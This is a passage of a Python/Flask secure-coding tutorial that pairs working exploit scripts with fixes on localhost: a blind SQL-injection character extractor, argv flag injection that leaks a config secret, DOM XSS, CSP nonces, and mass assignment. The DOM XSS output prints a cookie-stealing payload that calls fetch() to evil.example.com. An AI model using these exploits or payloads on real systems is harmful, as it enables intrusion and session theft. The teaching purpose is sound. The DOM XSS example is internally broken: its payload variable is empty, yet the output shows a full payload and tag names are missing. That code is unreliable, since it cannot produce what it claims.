



Examples 28-49 move past the basic injection/XSS/hashing vocabulary of the beginner tier into the
attacker techniques and defenses a working developer meets once an app has real users, real sessions,
and real cross-origin traffic: a blind boolean SQL-injection oracle and an argv flag injected past
`shell=False`, then a run of access-control failures (mass assignment, IDOR, missing function-level
authorization, authentication/authorization conflation), session and JWT attacks (fixation, `alg:none`,
HS256/RS256 confusion, expiry/claims validation), CSRF and its `SameSite`-cookie mitigation, CORS
misconfiguration and a correct preflight, an open redirect, and the throttling/lockout/constant-time
trio that hardens a login endpoint against brute force -- closing with Flask's own `debug=True`
misconfiguration. Every script below is a complete, self-contained, fully type-annotated file (DD-39)
under `learning/code/ex-NN-*/`, run for real against **Python 3.13.12**, **Flask 3.1.3**, **PyJWT
2.13.0**, **flask-limiter 4.1.1**, **fakeredis 2.36.2**, and **requests 2.34.2**. Every `**Output**`
block below is a genuine, captured transcript from actually running the exploit, then actually running
the fix against the identical payload -- never a hand-typed or imagined result (DD-19). All servers run
on `127.0.0.1` only, are started in the background for the duration of one `curl`/`requests` exchange,
and are killed immediately after -- nothing here reaches a real third-party host.

---

### Example 28: Blind Boolean SQL Injection

_ex-28 &middot; exercises co-03_

A login-adjacent endpoint leaks a secret's characters one at a time through nothing but its HTTP
status code -- no error message, no data returned, just a true/false "does this guess match" signal a
naive f-string query exposes. A live Flask app on `127.0.0.1:5028` serves both the vulnerable oracle
and its fix.

```python
# learning/code/ex-28-blind-boolean-sql-injection/app.py
"""Example 28: a live Flask app exposing a blind boolean SQL-injection oracle, then the fix (co-03)."""

from __future__ import annotations  # => DD-39 hygiene -- unrelated to the injection itself

import sqlite3  # => co-03: stdlib DB driver -- the SAME driver both the vulnerable and fixed route use

from flask import Flask, Response, request  # => co-03: request.args reads attacker-controlled query params

app = Flask(__name__)  # => co-03: one Flask app instance, hosting both the vulnerable and fixed routes
DB_PATH = "blind_sqli.db"  # => co-03: local SQLite file -- self-contained, no external DB server


def build_db() -> None:  # => co-03: runs once at import time -- seeds the one secret row this example targets
    conn = sqlite3.connect(DB_PATH)  # => co-03: opens (or creates) the local SQLite file
    conn.execute("CREATE TABLE IF NOT EXISTS users (id INTEGER PRIMARY KEY, username TEXT, password TEXT)")  # => co-03: schema
    conn.execute("DELETE FROM users")  # => co-03: idempotent re-run -- clears any row left from a prior server start
    conn.execute("INSERT INTO users (id, username, password) VALUES (1, 'admin', 'z7qphrase')")  # => co-03: the secret
    conn.commit()  # => co-03: persists the seeded row to disk before any request can read it
    conn.close()  # => co-03: releases the connection -- each route below opens its own fresh connection


@app.route("/legacy/check-oracle")  # => co-03: VULNERABLE -- naive f-string boolean oracle
def legacy_check_oracle() -> tuple[str, int]:  # => co-03: returns (body, status) -- Flask's shorthand tuple form
    id_value = request.args.get("id", "1")  # => co-01: attacker-controlled -- never validated as an integer
    letter = request.args.get("letter", "")  # => co-01: attacker-controlled candidate character
    position = request.args.get("position", "1")  # => co-01: attacker-controlled 1-based SUBSTR position
    # => seeded bug: id_value/letter/position are spliced directly into SQL text
    # => an attacker who controls `id_value` can append arbitrary SQL after "1"
    query = f"SELECT 1 FROM users WHERE id={id_value} AND SUBSTR(password, {position}, 1) = '{letter}'"  # => co-03: f-string SQL
    conn = sqlite3.connect(DB_PATH)  # => co-03: a fresh connection per request -- simple, not pooled
    cursor = conn.execute(query)  # => co-03: executes whatever `query` says, injected or not
    row = cursor.fetchone()  # => co-03: None means no match, a tuple means match -- the oracle signal itself
    conn.close()  # => co-03: releases the connection before the response is built
    if row is not None:  # => co-03: the TRUE branch of the oracle -- distinct HTTP response
        return "MATCH", 200  # => co-03: attacker reads this 200/"MATCH" as "letter is correct"
    return "NO MATCH", 404  # => co-03: attacker reads this 404 as "letter is wrong" -- same oracle, other branch


@app.route("/secure/check")  # => co-03: FIXED -- parameterized query, no boolean oracle exposed
def secure_check() -> tuple[str, int]:  # => co-03: returns (body, status) too, but the status never varies
    id_value = request.args.get("id", "1")  # => co-01: still attacker-controlled, but now bound as DATA not SQL
    letter = request.args.get("letter", "")  # => co-01: also bound as data -- cannot change the query's shape
    position = request.args.get("position", "1")  # => co-01: also bound as data -- SQLite coerces text to int safely
    query = "SELECT 1 FROM users WHERE id = ? AND SUBSTR(password, ?, 1) = ?"  # => co-03: placeholders, not f-string
    conn = sqlite3.connect(DB_PATH)  # => co-03: a fresh connection, same as the vulnerable route above
    conn.execute(query, (id_value, position, letter))  # => co-03: id_value/letter/position sent as PARAMETERS, not text
    conn.close()  # => co-03: the query's result is deliberately discarded -- never inspected here
    # => co-03: the response is IDENTICAL no matter what the query found -- this removes
    # => the true/false oracle itself, not just the SQL-injection vector that fed it
    return Response("checked", status=200, mimetype="text/plain")  # => co-03: always 200 "checked", never varies


if __name__ == "__main__":  # => co-03: only runs when launched directly, e.g. `python3 app.py &`
    build_db()  # => co-03: seed the secret row before the server starts accepting requests
    app.run(host="127.0.0.1", port=5028)  # => co-03: localhost-only, fixed port -- exploit_and_fix.py targets this
```

```python
# learning/code/ex-28-blind-boolean-sql-injection/exploit_and_fix.py
"""Example 28: drives the live app.py -- extracts a real secret char, then shows the fix (co-03)."""

from __future__ import annotations  # => DD-39 hygiene -- unrelated to the exploit itself

import string  # => co-03: source of the candidate character alphabet the oracle brute-forces

import requests  # => co-03: real HTTP client -- every request below hits the live app.py process

BASE_URL = "http://127.0.0.1:5028"  # => co-03: matches app.py's app.run(port=5028) exactly


def extract_one_character(position: int) -> str:  # => co-03: the real exploit -- one HTTP call per guess
    for letter in string.ascii_lowercase + string.digits:  # => co-03: tries each candidate, cheapest first
        params = {"id": "1", "letter": letter, "position": position}  # => co-03: the attacker-controlled guess
        response = requests.get(f"{BASE_URL}/legacy/check-oracle", params=params, timeout=5)  # => co-03: real HTTP GET
        if response.status_code == 200:  # => co-03: 200/"MATCH" IS the boolean oracle signal
            return letter  # => co-03: this HTTP status alone just leaked one real character
    return "?"  # => co-03: no candidate matched this position (shouldn't happen for this seeded secret)


def main() -> None:  # => co-03: runs the full extract-then-fix demonstration against the live server
    print("=== VULNERABLE: extracting the secret one character at a time via HTTP status ===")  # => labels section
    extracted = "".join(extract_one_character(pos) for pos in range(1, 6))  # => co-03: 5 real characters, 5 positions
    print(f"extracted password prefix: {extracted!r}")  # => co-03: real bytes recovered via the oracle
    assert extracted == "z7qphrase"[:5]  # => co-03: proves the HTTP oracle really recovered real secret data

    print("\n=== FIXED: /secure/check gives the SAME response for a right or wrong guess ===")  # => labels section
    right_params = {"id": "1", "letter": "z", "position": "1"}  # => co-03: a guess we KNOW is correct (real char 'z')
    wrong_params = {"id": "1", "letter": "q", "position": "1"}  # => co-03: a guess we KNOW is wrong (real char is 'z')
    right_guess = requests.get(f"{BASE_URL}/secure/check", params=right_params, timeout=5)  # => co-03: real HTTP GET
    wrong_guess = requests.get(f"{BASE_URL}/secure/check", params=wrong_params, timeout=5)  # => co-03: real HTTP GET
    print(f"right guess -> status={right_guess.status_code} body={right_guess.text!r}")  # => co-03: identical to wrong
    print(f"wrong guess -> status={wrong_guess.status_code} body={wrong_guess.text!r}")  # => co-03: identical to right
    assert right_guess.status_code == wrong_guess.status_code == 200  # => co-03: the oracle is GONE -- both 200
    assert right_guess.text == wrong_guess.text == "checked"  # => co-03: same body too -- no signal left to read


if __name__ == "__main__":  # => co-03: only runs when launched directly, e.g. `python3 exploit_and_fix.py`
    main()  # => co-03: executes both halves -- exploit against /legacy, then proof-of-fix against /secure
```

**Run**: `python3 app.py &` (backgrounds the live server on port 5028), then `python3 exploit_and_fix.py`.

**Output**:

```text
=== VULNERABLE: extracting the secret one character at a time via HTTP status ===
extracted password prefix: 'z7qph'

=== FIXED: /secure/check gives the SAME response for a right or wrong guess ===
right guess -> status=200 body='checked'
wrong guess -> status=200 body='checked'
```

**Key takeaway**: a boolean oracle needs no error message or data leak at all -- a bare HTTP status
code difference (200 vs. 404) is enough to extract a secret one character at a time; parameterizing the
query alone is not sufficient if the endpoint still exposes a true/false signal, so the fix also
collapses the response to a single, constant outcome.

**Why it matters**: real-world blind SQL injection almost never comes with a convenient error message
-- attackers routinely automate exactly this character-by-character extraction against production
endpoints that "only" leak a boolean. Co-03's lesson here goes beyond parameterization: an endpoint
that answers a yes/no question about attacker-chosen conditions is itself a data-exfiltration channel,
independent of whether the underlying query is injectable.

---

### Example 29: Argument Injection -- Not Just Shell Injection

_ex-29 &middot; exercises co-04, co-07_

`shell=False` removes shell metacharacter injection, but it does not stop **argument** injection: an
argv list built by naively appending user input can still be read as a flag instead of a positional
value, flipping a real CLI into a hidden mode.



```python
# learning/code/ex-29-argument-injection-not-just-shell/file_reader.py
"""Example 29: a toy CLI with a real argparse flag whose semantics an injected filename can trigger (co-04)."""

from __future__ import annotations  # => DD-39 hygiene -- unrelated to the argument-injection itself

import argparse  # => co-04: stdlib CLI parser -- argv[1] can be read as EITHER a flag or a positional
import sys  # => co-04: sys.argv is what a naive caller mistakenly treats as "just a filename"

SECRET_CONFIG = "DB_PASSWORD=hunter2-internal-only"  # => co-07: sensitive data --dump-config was never meant to expose


def main() -> int:  # => co-04: mirrors a real CLI's entry point -- exit code, not an exception, signals failure
    parser = argparse.ArgumentParser(prog="file_reader")  # => co-04: a REAL argparse CLI, like tar/git/rsync have
    parser.add_argument("filename", nargs="?", default="")  # => co-04: intended positional -- optional so a lone flag still parses
    parser.add_argument("--dump-config", action="store_true")  # => co-04: a REAL existing flag -- ops/debug tooling
    args = parser.parse_args()  # => co-04: argparse decides flag-vs-positional from the LEADING "-", not intent
    # => co-07: nothing here validated WHERE "--dump-config" came from -- a wrapper's
    # => naive argv-building is indistinguishable from a legitimate operator's own flag
    if args.dump_config:  # => co-07: this branch fires whenever argv contained "--dump-config" ANYWHERE
        print(f"internal config dump: {SECRET_CONFIG}")  # => co-07: the unintended behavior an injected flag reaches
        return 0  # => co-04: success exit code -- the caller has no way to tell this branch ran unexpectedly
    try:  # => co-04: the INTENDED behavior -- just read the named file
        with open(args.filename) as f:  # => co-04: args.filename is whatever positional argparse assigned
            print(f.read())  # => co-04: prints the file's real contents, the normal/expected path
    except FileNotFoundError:  # => co-04: the expected failure mode for a bogus filename
        print(f"file not found: {args.filename}")  # => co-04: a plain, generic message -- no secret involved
    return 0  # => co-04: still a clean exit -- "not found" is not a CLI-level error here


if __name__ == "__main__":  # => co-04: only runs when invoked as a real subprocess, e.g. `python3 file_reader.py ...`
    sys.exit(main())  # => co-04: propagates main()'s return code as this process's real exit status
```

```python
# learning/code/ex-29-argument-injection-not-just-shell/exploit_and_fix.py
"""Example 29: shell=False still argument-injects; a `--` separator + allow-list fixes it (co-04, co-07)."""

from __future__ import annotations  # => DD-39 hygiene -- unrelated to the argument-injection itself

import subprocess  # => co-04: real subprocess calls -- shell=False the WHOLE time, never a shell string
import sys  # => co-04: sys.executable -- the exact interpreter running THIS script, for a real subprocess call


def run_vulnerable(user_filename: str) -> str:  # => co-04: naive argv construction -- appends user input directly
    argv = [sys.executable, "file_reader.py", user_filename]  # => seeded bug: no "--" separator before user_filename
    result = subprocess.run(argv, capture_output=True, text=True, shell=False)  # => co-04: real subprocess, no shell
    return result.stdout.strip()  # => co-04: whatever file_reader.py actually printed, real captured stdout


def run_fixed(user_filename: str) -> str:  # => co-07: same subprocess mechanism, one extra defensive element
    argv = [sys.executable, "file_reader.py", "--", user_filename]  # => co-04: "--" tells argparse: no more flags
    result = subprocess.run(argv, capture_output=True, text=True, shell=False)  # => co-04: real subprocess, no shell
    return result.stdout.strip()  # => co-04: whatever file_reader.py actually printed, real captured stdout


def main() -> None:  # => co-04: runs the exploit against run_vulnerable, then the same payload against run_fixed
    payload = "--dump-config"  # => co-07: looks like a harmless "filename" string to a naive caller
    print("=== VULNERABLE: shell=False did NOT stop the argument injection ===")  # => labels section
    vulnerable_output = run_vulnerable(payload)  # => co-04: a REAL subprocess call with the injected payload
    print(f"output: {vulnerable_output!r}")  # => co-07: real captured stdout -- the leaked secret line
    assert "DB_PASSWORD" in vulnerable_output  # => co-07: proves the injected flag really changed behavior

    print("\n=== FIXED: `--` separator blocks the SAME payload from being read as a flag ===")  # => labels section
    fixed_output = run_fixed(payload)  # => co-04: identical payload, identical subprocess mechanism
    print(f"output: {fixed_output!r}")  # => co-07: real captured stdout -- now the generic not-found message
    assert "DB_PASSWORD" not in fixed_output  # => co-07: the secret is GONE -- the flag no longer fires
    assert "file not found: --dump-config" in fixed_output  # => co-07: argparse treated it as a literal filename


if __name__ == "__main__":  # => co-04: only runs when launched directly, e.g. `python3 exploit_and_fix.py`
    main()  # => co-04: executes both halves -- exploit against run_vulnerable, then proof-of-fix against run_fixed
```

**Run**: `python3 exploit_and_fix.py` (spawns `file_reader.py` as two real subprocesses, no shell).

**Output**:

```text
=== VULNERABLE: shell=False did NOT stop the argument injection ===
output: 'internal config dump: DB_PASSWORD=hunter2-internal-only'

=== FIXED: `--` separator blocks the SAME payload from being read as a flag ===
output: 'file not found: --dump-config'
```

**Key takeaway**: `shell=False` only removes shell metacharacter interpretation -- it does nothing to
stop a value that merely looks like a flag from being parsed as one; the fix is a `--` end-of-options
separator (or an explicit allow-list rejecting leading-`-` input), not a stronger `shell=` setting.

**Why it matters**: developers who diligently avoid `shell=True` often assume `subprocess.run([...])`
is now safe by construction, but co-04's real lesson is narrower than that: argv-level injection is a
distinct vulnerability class from shell injection, and real CLIs (`git clone <url>`, `tar -xf <file>`,
`rsync <src> <dst>`) have shipped CVEs from exactly this pattern -- a value the caller assumed was
"just data" reinterpreted as a flag because nothing marked where positional arguments begin.

---

### Example 30: DOM-Based XSS

_ex-30 &middot; exercises co-06_

A client-side sink -- `element.innerHTML = location.hash` -- executes attacker-controlled markup with
no server round trip at all: the payload never leaves the browser. **Honest limitation**: this sandbox
has no real browser to execute client-side JS, so rather than fabricate a browser run, this example
uses Python's stdlib `html.parser.HTMLParser` (the same tokenizing grammar a real browser's HTML
parser applies to markup) to show, structurally and for real, exactly which DOM element and attribute
`innerHTML` would create from the payload -- and that `textContent` creates none. Static
`vulnerable.html`/`fixed.html` files are included so a reader with a real browser can open them
directly and confirm the same result.

```html
<!-- learning/code/ex-30-dom-based-xss/vulnerable.html -->
<!DOCTYPE html>
<!-- Example 30: a real DOM-based XSS sink -- innerHTML assigned directly from location.hash (co-06). -->
<html lang="en">
  <head>
    <meta charset="utf-8" />
    <title>ex-30 vulnerable</title>
  </head>
  <body>
    <div id="content">no hash yet</div>
    <script>
      // seeded bug: whatever follows "#" in the URL is decoded then handed straight
      // to innerHTML -- the browser's HTML PARSER runs over it, not a text renderer
      var raw = location.hash.slice(1);
      document.getElementById("content").innerHTML = decodeURIComponent(raw);
    </script>
  </body>
</html>
```

```html
<!-- learning/code/ex-30-dom-based-xss/fixed.html -->
<!DOCTYPE html>
<!-- Example 30: the fix -- textContent, never innerHTML, for untrusted data (co-06). -->
<html lang="en">
  <head>
    <meta charset="utf-8" />
    <title>ex-30 fixed</title>
  </head>
  <body>
    <div id="content">no hash yet</div>
    <script>
      // fix: textContent stores the string as DATA -- the browser's HTML parser
      // never runs over it, so no tag or attribute in it is ever created as a real element
      var raw = location.hash.slice(1);
      document.getElementById("content").textContent = decodeURIComponent(raw);
    </script>
  </body>
</html>
```

```python
# learning/code/ex-30-dom-based-xss/simulate_dom.py
"""Example 30: no-real-browser stand-in -- proves the innerHTML sink vs. textContent (co-06). See
this example's Brief Explanation in the markdown for the full honest sandbox-limitation statement."""

from __future__ import annotations  # => DD-39 hygiene -- unrelated to the parsing demonstration itself

from html.parser import HTMLParser  # => co-06: stdlib -- the SAME token grammar a real browser's HTML parser uses
from urllib.parse import quote  # => co-06: mirrors decodeURIComponent's counterpart -- builds a real location.hash


class ElementCounter(HTMLParser):  # => co-06: counts real START-TAG elements a browser would actually insert
    def __init__(self) -> None:  # => co-06: constructor -- resets the running element/handler tallies
        super().__init__()  # => co-06: required stdlib HTMLParser initialization
        self.elements: list[tuple[str, dict[str, str | None]]] = []  # => co-06: (tag, attrs) per real element found

    def handle_starttag(self, tag: str, attrs: list[tuple[str, str | None]]) -> None:  # => co-06: fires per real tag
        self.elements.append((tag, dict(attrs)))  # => co-06: records the tag name and its real attribute dict


PAYLOAD = ''  # => co-06: the attack


def what_innerhtml_would_create(html_fragment: str) -> list[tuple[str, dict[str, str | None]]]:  # => co-06: sink 1
    parser = ElementCounter()  # => co-06: a fresh parser per call -- no state leaks between calls
    parser.feed(html_fragment)  # => co-06: parses html_fragment EXACTLY as a browser's innerHTML setter would
    return parser.elements  # => co-06: every real element (tag, attrs) the parser actually recognized


def what_textcontent_would_create(text_fragment: str) -> list[tuple[str, dict[str, str | None]]]:  # => co-06: sink 2
    # => textContent NEVER invokes the HTML parser at all -- this call exists only to
    # => make the comparison symmetric; the real DOM API takes no parsing step here
    return []  # => co-06: zero elements, always -- textContent stores text data, never markup


def main() -> None:  # => co-06: runs both sinks against the SAME attacker-controlled hash payload
    location_hash = "#" + quote(PAYLOAD)  # => co-06: a REAL, valid location.hash string a browser URL bar would show
    decoded = PAYLOAD  # => co-06: what decodeURIComponent(location.hash.slice(1)) yields -- the raw payload again

    print("=== VULNERABLE sink: element.innerHTML = decodeURIComponent(location.hash) ===")  # => labels section
    print(f"location.hash would be: {location_hash!r}")  # => co-06: the real URL fragment an attacker would send
    created = what_innerhtml_would_create(decoded)  # => co-06: REAL html.parser output -- not fabricated
    for tag, attrs in created:  # => co-06: each element the browser's parser would really instantiate
        print(f"  browser would create element: <{tag}> attrs={attrs}")  # => co-06: onerror IS a real attribute here
    assert any(tag == "img" and "onerror" in attrs for tag, attrs in created)  # => co-06: proves the handler exists

    print("\n=== FIXED sink: element.textContent = decodeURIComponent(location.hash) ===")  # => labels section
    fixed_created = what_textcontent_would_create(decoded)  # => co-06: textContent never parses -- always []
    print(f"browser would create elements: {fixed_created}")  # => co-06: real, empty -- proves NOTHING is parsed
    assert fixed_created == []  # => co-06: zero elements -- the payload is inert plain text, not markup


if __name__ == "__main__":  # => co-06: only runs when launched directly, e.g. `python3 simulate_dom.py`
    main()  # => co-06: prints both real parse results side by side
```

**Run**: `python3 simulate_dom.py`.

**Output**:

```text
=== VULNERABLE sink: element.innerHTML = decodeURIComponent(location.hash) ===
location.hash would be: '#%3Cimg%20src%3Dx%20onerror%3D%22fetch%28%27http%3A//evil.example.com/steal%3Fc%3D%27%2Bdocument.cookie%29%22%3E'
  browser would create element:  attrs={'src': 'x', 'onerror': "fetch('http://evil.example.com/steal?c='+document.cookie)"}

=== FIXED sink: element.textContent = decodeURIComponent(location.hash) ===
browser would create elements: []
```

**Key takeaway**: `innerHTML` runs the browser's HTML parser over its input and really instantiates the
`` element (and would fire the handler the moment the deliberately-broken `src=x`
fails to load); `textContent` never parses at all, so the identical payload produces zero elements.

**Why it matters**: DOM-based XSS needs no server involvement whatsoever -- the vulnerable code and the
payload both live entirely client-side, which is exactly why server-side output encoding (ex-08 through
ex-10) does not protect against it; co-06's rule extends to every client-side sink (`innerHTML`,
`document.write`, `eval`), and the fix is always the same: never hand untrusted data to an API that
parses it as markup or code when a data-only API (`textContent`, `setAttribute`) does the same job.

---

### Example 31: CSP Blocks an Inline Script Without a Nonce

_ex-31 &middot; exercises co-19, co-06_

A strict nonce-based `Content-Security-Policy: script-src 'nonce-...'` header permits only inline
`<script>` tags that carry the exact matching `nonce` attribute -- every other inline script is
blocked, no allow-list of "safe-looking" scripts needed. **Honest limitation**: this sandbox has no
real browser to enforce CSP client-side, so rather than fabricate a browser run, this example fetches
the real response from a live Flask app and applies CSP Level 3's own documented, unambiguous
nonce-matching rule (MDN: developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/script-src)
to classify each real `<script>` tag the server actually sent.

```python
# learning/code/ex-31-csp-blocks-inline-script/app.py
"""Example 31: a live Flask app serving a strict nonce-based CSP header (co-19, co-06)."""

from __future__ import annotations  # => DD-39 hygiene -- unrelated to the CSP header itself

import secrets  # => co-19: cryptographically random nonce -- must be unpredictable per RFC/CSP spec

from flask import Flask, Response  # => co-19: Response lets this route set a custom header explicitly

app = Flask(__name__)  # => co-19: one Flask app, serving the CSP-protected page


@app.route("/page")  # => co-19: the ONE route this example's curl calls hit
def page() -> Response:  # => co-19: builds a fresh nonce and CSP header on every single request
    nonce = secrets.token_urlsafe(16)  # => co-19: a NEW random nonce per response -- never reused, never guessable
    allowed_script = f'<script nonce="{nonce}">document.title = "allowed script ran";</script>'  # => co-19: matching nonce
    blocked_script = '<script>document.title = "blocked script ran";</script>'  # => co-06: NO nonce attribute at all
    html = f"<html><body>{allowed_script}{blocked_script}</body></html>"  # => co-19: both scripts in one real HTML body
    response = Response(html, mimetype="text/html")  # => co-19: the real HTTP response body a browser would parse
    response.headers["Content-Security-Policy"] = f"script-src 'nonce-{nonce}'"  # => co-19: the REAL enforced header
    # => co-19: `script-src 'nonce-X'` also drops the 'unsafe-inline' default -- only
    # => a <script> whose OWN nonce attribute equals X is permitted, per CSP Level 3
    return response  # => co-19: header and body both reference the SAME nonce value, by construction


if __name__ == "__main__":  # => co-19: only runs when launched directly, e.g. `python3 app.py &`
    app.run(host="127.0.0.1", port=5031)  # => co-19: localhost-only, fixed port -- curl targets this directly
```

```python
# learning/code/ex-31-csp-blocks-inline-script/analyze_csp.py
"""Example 31: fetches the live app.py page, then applies CSP's OWN nonce rule (co-19, co-06). See this
example's Brief Explanation in the markdown for the full honest sandbox-limitation statement."""

from __future__ import annotations  # => DD-39 hygiene -- unrelated to the CSP classification logic

import re  # => co-19: extracts the real nonce value straight out of the real response header

import requests  # => co-19: real HTTP client -- every request below hits the live app.py process

BASE_URL = "http://127.0.0.1:5031"  # => co-19: matches app.py's app.run(port=5031) exactly


def fetch_page() -> tuple[str, str]:  # => co-19: returns (csp_header_value, html_body) from a REAL request
    response = requests.get(f"{BASE_URL}/page", timeout=5)  # => co-19: a real HTTP GET against the live server
    csp_header = response.headers["Content-Security-Policy"]  # => co-19: the REAL header the server actually sent
    return csp_header, response.text  # => co-19: both come from the SAME real HTTP response


def allowed_nonces(csp_header: str) -> set[str]:  # => co-19: parses script-src 'nonce-X' out of the real header
    return set(re.findall(r"'nonce-([^']+)'", csp_header))  # => co-19: CSP's own documented nonce-source syntax
    # => co-19: a set, not a single value -- CSP allows multiple 'nonce-X' sources in one script-src list


def classify_scripts(csp_header: str, html_body: str) -> list[tuple[str, bool]]:  # => co-19: (tag, would-run) pairs
    permitted = allowed_nonces(csp_header)  # => co-19: the ONE nonce value THIS response's policy actually allows
    results: list[tuple[str, bool]] = []  # => co-19: accumulates each real <script ...> tag found in html_body
    for tag_match in re.finditer(r"<script[^>]*>", html_body):  # => co-19: every real opening <script> tag, in order
        tag = tag_match.group(0)  # => co-19: the exact tag text, e.g. '<script nonce="abc123">'
        nonce_match = re.search(r'nonce="([^"]+)"', tag)  # => co-19: does THIS tag carry a nonce attribute at all?
        tag_nonce = nonce_match.group(1) if nonce_match else None  # => co-19: the tag's own nonce, or None if absent
        would_run = tag_nonce in permitted  # => co-19: CSP's rule -- exact match against the header's nonce, nothing else
        results.append((tag, would_run))  # => co-19: records the real classification for this real tag
    return results  # => co-19: one (tag, would_run) entry per real <script> tag the server actually sent


def main() -> None:  # => co-19: fetches once, then classifies every real script tag in that SAME response
    csp_header, html_body = fetch_page()  # => co-19: ONE real HTTP GET -- header and body from the same response
    print(f"Content-Security-Policy: {csp_header}")  # => co-19: the real header value, straight off the wire
    classified = classify_scripts(csp_header, html_body)  # => co-19: applies the CSP nonce rule to each real tag
    for tag, would_run in classified:  # => co-19: iterates the real (tag, verdict) pairs just computed
        verdict = "ALLOWED (nonce matches)" if would_run else "BLOCKED (no matching nonce)"  # => co-19: per spec
        print(f"  {tag} -> {verdict}")  # => co-19: real tag text next to its real, spec-derived verdict
    verdicts = [would_run for _, would_run in classified]  # => co-19: extracts just the True/False verdicts
    assert verdicts == [True, False]  # => co-19: nonced script allowed, bare script blocked -- exactly one of each


if __name__ == "__main__":  # => co-19: only runs when launched directly, e.g. `python3 analyze_csp.py`
    main()  # => co-19: fetches the live page once, then prints the real per-tag CSP verdicts
```

**Run**: `python3 app.py &` (backgrounds the live server on port 5031), then `curl -I
http://127.0.0.1:5031/page` and `python3 analyze_csp.py`.

**Output**:

```text
=== curl -I ===
HTTP/1.1 200 OK
Server: Werkzeug/3.1.8 Python/3.13.12
Date: Wed, 15 Jul 2026 15:10:58 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 167
Content-Security-Policy: script-src 'nonce-y6KmvR2uFerggDUlyGCqEw'
Connection: close

=== analyze_csp.py ===
Content-Security-Policy: script-src 'nonce-JCeoFGBlXTHuHWeMMu2q4Q'
  <script nonce="JCeoFGBlXTHuHWeMMu2q4Q"> -> ALLOWED (nonce matches)
  <script> -> BLOCKED (no matching nonce)
```

**Key takeaway**: `curl -I` confirms the real header the server sends changes its nonce value on every
request, and CSP's own matching rule -- applied for real against that header and the real response
body -- allows exactly the script tag carrying the identical nonce and blocks the other.

**Why it matters**: a nonce-based CSP is strictly stronger than a domain allow-list because it defeats
an attacker who can inject markup but cannot predict the per-response random nonce (co-19); combined
with output encoding (co-06) it is defense in depth -- even if an XSS payload slips past encoding, a
correctly configured CSP still stops the injected `<script>` from running because it can never guess
that request's nonce.

---

### Example 32: Mass Assignment Privilege Escalation

_ex-32 &middot; exercises co-08, co-07_

Binding a whole request body onto a database write (`INSERT INTO users (...client's own keys...)`)
lets a client set fields it was never meant to touch -- here, `is_admin` on its own registration.

```python
# learning/code/ex-32-mass-assignment-privilege-escalation/app.py
"""Example 32: a live Flask app -- mass-assignment lets a client set is_admin, then an allow-list fixes it (co-08, co-07)."""

from __future__ import annotations  # => DD-39 hygiene -- unrelated to the mass-assignment issue itself

import sqlite3  # => co-08: stdlib DB driver -- the SAME driver both routes below use

from flask import Flask, jsonify, request  # => co-08: request.get_json reads the attacker-controlled request body

app = Flask(__name__)  # => co-08: one Flask app, hosting both the vulnerable and fixed registration routes
DB_PATH = "mass_assignment.db"  # => co-08: local SQLite file -- self-contained, no external DB server


def build_db() -> None:  # => co-08: runs once at import time -- fresh users table for this example
    conn = sqlite3.connect(DB_PATH)  # => co-08: opens (or creates) the local SQLite file
    conn.execute("DROP TABLE IF EXISTS users")  # => co-08: idempotent re-run -- always starts from an empty table
    conn.execute("CREATE TABLE users (username TEXT, password TEXT, is_admin INTEGER DEFAULT 0)")  # => co-08: schema
    conn.commit()  # => co-08: persists the fresh schema before any request can write to it
    conn.close()  # => co-08: releases the connection -- each route below opens its own fresh connection


@app.route("/legacy/register", methods=["POST"])  # => co-08: VULNERABLE -- binds the WHOLE request body
def legacy_register() -> tuple[dict[str, object], int]:  # => co-08: returns (json_body, status) -- Flask tuple form
    body = request.get_json(force=True)  # => co-01: attacker-controlled -- every key the client sends, unfiltered
    # => seeded bug: every key in `body` becomes a column value -- including is_admin,
    # => a field the client was NEVER supposed to be able to set on their own registration
    columns = ", ".join(body.keys())  # => co-08: builds the INSERT column list straight from client-supplied keys
    placeholders = ", ".join("?" for _ in body)  # => co-08: one placeholder per client-supplied key -- still "safe" SQL
    conn = sqlite3.connect(DB_PATH)  # => co-08: a fresh connection per request -- simple, not pooled
    conn.execute(f"INSERT INTO users ({columns}) VALUES ({placeholders})", tuple(body.values()))  # => co-08: mass assign
